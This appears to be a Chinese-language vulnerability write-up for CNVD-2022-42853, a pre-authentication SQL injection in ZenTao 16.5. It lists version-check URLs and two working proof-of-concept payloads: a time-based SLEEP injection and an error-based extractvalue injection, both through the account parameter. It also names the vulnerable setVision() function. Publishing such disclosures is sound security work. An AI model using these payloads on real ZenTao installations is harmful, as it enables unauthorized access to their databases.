

# CNVD-2022-42853

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** 禅道16.5版本 SQL注入


## 0x00 漏洞描述

禅道16.5版本 SQL注入(CNVD-2022-42853)

## 0x01 影响范围

禅道16.5版本

## 0x02 查看版本

### 方式一

```
http://ip:port/index.php?mode=getconfig
```

### 方式二

登录框看源码



## 0x03 漏洞复现

### POC 1

```
http://ip:port/index.php?account=admin' AND (SELECT 1337 FROM (SELECT(SLEEP(5)))a)-- b
```

### poc 2

```bash
http://192.168.81.173/zentao/user-login.html

account=admin'+and+(select+extractvalue(1,concat(0x7e,(database()),0x7e)))#
```


## 0x04 漏洞成因

漏洞点出现在以上版本的zbox\app\zentao\framework\base\router.class.php文件里，具体函数为setVision()

该函数未对外界传入的account参数做过滤直接拼接SQL语句，触发SQL注入漏洞


从代码里可以看到，$account变量支持$_GET和$_POST两种方法传参，可前台SQLi